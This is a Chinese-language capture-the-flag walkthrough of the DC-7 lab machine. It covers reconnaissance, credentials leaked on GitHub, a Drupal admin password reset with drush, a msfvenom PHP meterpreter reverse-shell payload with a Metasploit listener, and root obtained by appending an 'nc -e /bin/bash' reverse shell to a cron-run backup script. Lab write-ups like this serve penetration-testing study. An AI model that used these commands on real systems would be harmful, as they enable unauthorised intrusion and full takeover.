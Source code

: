 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.15


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.15
```

![image-20220112141640627.png](../../_img\assets/1652256667703-f7390db6-c819-4d76-9765-67b3fa6eef05.png)

可以看到开放了22号端口SSH服务和80端口HTTP服务


## 漏洞发现

访问HTTP服务，主页提示我们`这个挑战并不完全是技术性的，但如果您需要诉诸暴力破解或字典攻击，您可能不会成功`

![image-20220112142045739.png](../../_img\assets/1652256672497-686e8dc8-f3ec-4198-9315-81d0eaccbeff.png)

查看登陆页面，登录页面显示要求我们输入 D7 用户名

![image-20220112142538255.png](../../_img\assets/1652256676271-b703cf20-bf5e-4994-9850-1c4b3bd9a006.png)

在首页的左下方发现一个类似于用户名的东西，熟悉twitter的就会发现这个名字类似twitter的账号

![image-20220112143946107.png](../../_img\assets/1652256817750-08954e9e-933b-4dd0-89aa-fb6305ada3be.png)

![image-20220112142712234.png](../../_img\assets/1652256822692-0bcf85bf-5407-4702-9d7e-281fbd170a81.png)

在twitter上搜索该账号，可以得到一各github地址

![image-20220112143505707.png](../../_img\assets/1652256831029-ca7b81f4-f2d5-4cb4-a37f-731042573c9f.png)

访问github地址，一番浏览中发现在config.php文件中暴露账户和密码

![image-20220112144310546.png](../../_img\assets/1652256845352-0d4dc144-d9ab-4c43-906d-395c89b80e78.png)

使用账号和密码登录后台，登陆失败

![image-20220112144426204.png](../../_img\assets/1652256864107-178524d6-a403-4896-b0df-1468ff1ae219.png)

在前面的端口扫描中我们发现开放了22号端口SSH服务，尝试链接

![image-20220112144548593.png](../../_img\assets/1652256868225-5ebbc73e-1efc-4709-a1eb-223305118868.png)

成功登录

正当一筹莫展的时候终端显示收到一封邮件，那就去查看一下吧

![image-20220112154314646.png](../../_img\assets/1652256888994-85968f1a-3633-4f65-bbd0-45e6a6b37ef8.png)

在邮件中查看到`/opt/scripts/backups.sh`脚本文件，而且仔细观察可以发现邮件是间隔15min发一次的，也就是说backups.sh脚本文件15min分钟运行一次。

查看backups.sh脚本文件权限和内容（养成习惯看见脚本文件就查看权限，会有意想不到的收获）

![image-20220112153838739.png](../../_img\assets/1652256897607-8bc8853b-49cf-41df-a9f1-e0d61086b2ce.png)

可以看到backups.sh脚本文件以root和www-data运行在同一组中

查看脚本文件

![image-20220112145537851.png](../../_img\assets/1652256908427-2f63cfd5-ec5c-4c29-853c-3c903a6650b8.png)

在脚本文件中发现了drush命令，百度一下

![image-20220112150122428.png](../../_img\assets/1652256930208-84286e23-884a-48ff-8052-6574d405214f.png)

drush命令可以修改用户密码，而drupalCMS默认存在admin账户，修改admin账户的密码

```
cd /var/www/html/
drush user-password  admin --password=123456
```

![image-20220112150454179.png](../../_img\assets/1652256935258-1bd12e57-50bf-4561-ad44-0c9c25966225.png)

登陆后台，成功

![image-20220112150554204.png](../../_img\assets/1652256939459-b2a799b1-74b2-43df-ba8c-8baacf84a2c7.png)


## 反弹shell

在后台发现我们可以新建页面

![image-20220112150813405.png](../../_img\assets/1652256944462-e20b9481-a7c2-4991-a0c3-041b5ca61436.png)

但是不支持php

![image-20220112150844026.png](../../_img\assets/1652256949287-89a9dc1e-145b-46f5-968c-5e3f63d441fb.png)

通过Drupal官网我了解到可以安装PHP代码的插件，使其支持php代码

[https://www.drupal.org/project/php/releases/8.x-1.1](https://www.drupal.org/project/php/releases/8.x-1.1)

![image-20220112151337520.png](../../_img\assets/1652256952869-f5d5c996-b948-4211-9146-56cea15637dc.png)

安装php插件

![image-20220112151450761.png](../../_img\assets/1652256956595-a198027a-5e6a-49f9-b748-66b15c887c59.png)

安装后激活模块

![image-20220112151756543.png](../../_img\assets/1652256960422-e65f52a4-25ab-4037-81b2-c501773e9591.png)

![image-20220112151902936.png](../../_img\assets/1652256963973-40c0d683-2931-4c0d-95b5-383d29f91ae6.png)

创建木马

```
msfvenom -p php/meterpreter/reverse_tcp  lhost=192.168.1.28 port=4444 -f raw
```

![image-20220112152106345.png](../../_img\assets/1652256979114-eef7233e-ddb9-4315-871a-c2d54fb83c5d.png)

在后台创建木马文件

![image-20220112152244204.png](../../_img\assets/1652256983087-1d90ea11-c978-4f8d-9d0c-0d38fa36fd22.png)

![image-20220112152322718.png](../../_img\assets/1652256987493-8530d371-3cac-4ae7-952a-11bf205c4d12.png)

创建监听

```
┌──(root💀kali)-[~]
└─# msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.28
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

![image-20220112152451900.png](../../_img\assets/1652256992204-b4d5d73c-4bf3-4eb3-a10c-dfe1ff31dcde.png)

访问XMTX

![image-20220112152628533.png](../../_img\assets/1652256996501-deaf9f89-288b-4506-9fb8-4035c5b76336.png)

成功反弹shell

![image-20220112152650729.png](../../_img\assets/1652257000288-d0e28b61-748e-4322-b2d4-f76e6e759379.png)


## 提权

查看系统版本

```
cat /proc/version
cat /etc/issue
```

![image-20220112153251189.png](../../_img\assets/1652257004533-e6d7787f-3e79-4d1f-b530-250d31400d21.png)

在这里我感觉到了嘲讽`Please enjoy your stay(祝你在这停留的愉快)`根据这句话多半不可能是在这里提权了。

在前面我们看到backups.sh脚本文件以root和www-data运行在同一组中，并且backups.sh脚本15min运行一次。我们现在是www-data权限可以对backups.sh脚本进行操作，如果向backups.sh脚本写入恶意代码，当backups.sh脚本以root身份运行时我们就可以得到root权限。

设置监听

![image-20220112155007689.png](../../_img\assets/1652257017078-0567df0f-d42c-4e37-b637-cd3b0b37988e.png)

写入恶意代码

```
echo nc 192.168.1.28 12345 -e /bin/bash >> /opt/scripts/backups.sh
```

![image-20220112155129464.png](../../_img\assets/1652257021575-5dd51b29-9192-491a-a5c3-58f64c97ccca.png)

接下来就是等待脚本运行了（最多15min），成功反弹

![image-20220112160114748.png](../../_img\assets/1652257036311-d2ff6df4-7ac3-4c2d-903b-e08f2bef431d.png)


## final-flag

在root根目录下找到final-flag

![image-20220112160238050.png](../../_img\assets/1652257042254-2d40aab5-beee-484a-abc2-e9462c649555.png)

